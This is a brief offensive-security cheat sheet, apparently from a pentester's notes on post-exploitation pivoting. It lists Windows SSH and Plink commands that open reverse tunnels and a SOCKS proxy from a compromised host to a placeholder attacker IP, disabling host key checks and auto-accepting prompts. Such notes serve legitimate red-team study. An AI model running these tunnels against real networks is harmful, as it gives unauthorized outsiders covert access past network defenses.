 # SSH

## 01 - SSH

TODO: Fill this info and refer to the links below

### 1.1 - Scenarios

#### 1.1.1 - Reverse Tunneling SOCKS Proxy

```
C:\> ssh -o "StrictHostKeyChecking=no" -NTfCqR <SOCKS_PORT> <username>@<attacker_IP>
```

## 02 - Plink

### 2.1 - Usage

```
C:\> plink.exe -batch -ssh [-P <PORT>] -l <username> -pw <password> -R <attacker_IP>:<local_PORT>:<bind_IP>:<bind_PORT> <attacker_IP>

C:\> cmd.exe /c echo y | plink.exe -ssh [-P <PORT>] -l <username> -pw <password> -R <attacker_IP>:<local_PORT>:<bind_IP>:<bind_PORT> <attacker_IP>
```

> [!NOTE]
> You can do the full path if you wish.

```
C:\> %COMSPEC% /c echo y | plink.exe -ssh [-P <PORT>] -l <username> -pw <password> -R <attacker_IP>:<local_PORT>:<bind_IP>:<bind_PORT> <attacker_IP>

C:\> C:\Windows\System32\cmd.exe /c echo y | plink.exe -ssh -l <username> -pw <password> -R <attacker_IP>:<local_PORT>:<bind_IP>:<bind_PORT> <attacker_IP> -P <PORT>
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x05 - Pivot/Linux/Port Forwarding/SSH/Metasploit/Metasploit|Metasploit]]

### TrustedSec

- [TrustedSec: The SOCKS We Have at Home](https://trustedsec.com/blog/the-socks-we-have-at-home)

### NetSPI

- [NetSPI: How to Access RDP Over a Reverse SSH Tunnel](https://www.netspi.com/blog/technical/technical-vulnerability-management/how-to-access-rdp-over-a-reverse-ssh-tunnel/)

### SlayerLabs

- [SlayerLabs: Tunneling Quick Guide](https://posts.slayerlabs.com/tunneling-quick-guide/)

### Catharsis

- [Catharsis: Network Pivoting and Tunneling Guide](https://catharsis.net.au/blog/network-pivoting-and-tunneling-guide/)